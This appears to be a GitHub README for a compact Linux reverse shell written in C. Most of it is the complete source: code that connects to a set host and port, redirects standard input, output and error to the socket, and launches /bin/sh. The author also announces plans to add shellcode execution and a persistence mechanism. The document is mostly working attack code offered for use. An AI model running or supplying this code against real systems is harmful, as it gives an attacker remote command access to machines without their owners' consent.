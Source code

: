 # compact_linux_reverse_shell
A compact linux reverse shell written in the C programming language.

`note I haven't bothered yet to implement this in windows; if someone wants that open a issue(no need to pull) and tell me that; or request it via discord; and it should get done in a few days`

obviously you can do a pull if thats what you want :)


### upcoming changes:
- adding shellcode execution (with a short & neat guide how to get shellcode without using radare2 or the classical ghidra or metasploit utils)
- persistence mechanism


https://gist.github.com/loneicewolf/8232aad5722e1e7de9d92932b5a01597
```
#include <stdio.h>
#include <unistd.h>
#include <arpa/inet.h>
#define RP 1234
#define RH "127.0.0.1"
#define BIN "/bin/sh"
int main(){
int is = 0;is = socket(AF_INET,SOCK_STREAM,0);
struct  sockaddr_in s1;
s1.sin_family      = AF_INET;
s1.sin_port        = htons(RP);
s1.sin_addr.s_addr = inet_addr(RH);
connect( is,(struct sockaddr *) &s1,sizeof(s1));
for(int i=0;i<3;dup2(is,i),i++);
char * const argv[] = {BIN,NULL};
execve(BIN, argv, NULL);
return 0;}
```
